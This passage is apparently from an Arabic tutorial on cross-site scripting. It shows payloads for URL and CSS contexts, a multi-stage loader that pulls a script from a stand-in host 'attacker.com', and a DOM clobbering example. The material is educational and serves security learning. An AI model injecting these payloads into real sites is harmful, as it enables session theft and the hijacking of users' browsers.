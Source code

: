### 4. سياق URL

```html
<a href="https://example.com/search?q=[مدخلات المستخدم]">بحث</a>
```

إذا كانت مدخلات المستخدم:
```
javascript:alert('XSS')
```

ستصبح النتيجة:
```html
<a href="javascript:alert('XSS')">بحث</a>
```

### 5. سياق CSS

```html
<div style="color:[مدخلات المستخدم]">نص ملون</div>
```

إذا كانت مدخلات المستخدم:
```
red;}</style><script>alert('XSS')</script><!--
```

ستصبح النتيجة:
```html
<div style="color:red;}</style><script>alert('XSS')</script><!--">نص ملون</div>
```

## أنواع هجمات XSS المتقدمة

### XSS المتعدد المراحل (Multi-stage XSS)

هذه الهجمات تستخدم مراحل متعددة، حيث يقوم الكود الخبيث الأولي بتحميل كود آخر أكثر تعقيدًا من مصدر خارجي.

```html
<script>
    // المرحلة الأولى: تحميل سكريبت خارجي
    var script = document.createElement('script');
    script.src = 'https://attacker.com/malicious.js';
    document.body.appendChild(script);
</script>
```

### هجمات DOM Clobbering

تستهدف هذه الهجمات بنية DOM للصفحة لتجاوز بعض وسائل الحماية.

```html
<form id="config">
    <input name="csrf_token" value="attacker_controlled">
</form>

<script>
    // عند استخدام config.csrf_token، سيتم استخدام القيمة الخبيثة
    if (document.forms.config.csrf_token.value === storedToken) {
        // عملية غير آمنة
    }
</script>
```
